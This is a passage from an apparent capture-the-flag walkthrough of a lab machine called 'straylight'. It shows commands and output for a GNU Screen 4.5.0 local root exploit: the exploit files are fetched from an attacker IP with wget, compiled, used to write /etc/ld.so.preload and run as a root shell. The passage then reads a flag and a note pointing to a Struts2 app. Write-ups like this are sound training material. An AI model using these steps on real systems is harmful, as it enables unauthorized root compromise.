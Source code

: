 Then, we transfer the c lenguage files to the victim machine.

```console
www-data@straylight:/tmp$ wget 192.168.179.1/{libhax.c,rootshell.c}
```

We compile them.

```console
www-data@straylight:/tmp$ gcc -fPIC -shared -ldl -o /tmp/libhax.so /tmp/libhax.c 
www-data@straylight:/tmp$ gcc -o /tmp/rootshell /tmp/rootshell.c
```

We execute the following commands and we get root.

```console
www-data@straylight:/etc$ cd /etc
cd /etc
www-data@straylight:/etc$ umask 000
umask 000
www-data@straylight:/etc$ /bin/screen-4.5.0 -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so"
< -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so"
www-data@straylight:/etc$ /bin/screen-4.5.0 -ls
/bin/screen-4.5.0 -ls
' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
[+] done!
No Sockets found in /tmp/screens/S-www-data.

www-data@straylight:/etc$ /tmp/rootshell
/tmp/rootshell
# id
id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
```

We read the flag.

```console
# python -c "import os; os.setuid(0); os.setgid(0); os.system('/bin/bash')"
python -c "import os; os.setuid(0); os.setgid(0); os.system('/bin/bash')"
root@straylight:/etc# cd /root
cd /root
root@straylight:/root# ls
ls
flag.txt  note.txt  scripts
root@straylight:/root# cat flag.txt
cat flag.txt
5ed185fd75a8d6a7056c96a436c6d8aa
```

We found a note containing a message about a Tomcat web service and a directory.

```console
root@straylight:/root# cat note*
cat note*
Devs,

Lady 3Jane has asked us to create a custom java app on Neuromancer's primary server to help her interact w/ the AI via a web-based GUI.

The engineering team couldn't strss enough how risky that is, opening up a Super AI to remote access on the Freeside network. It is within out internal admin network, but still, it should be off the network completely. For the sake of humanity, user access should only be allowed via the physical console...who knows what this thing can do.

Anyways, we've deployed the war file on tomcat as ordered - located here:

/struts2_2.3.15.1-showcase

```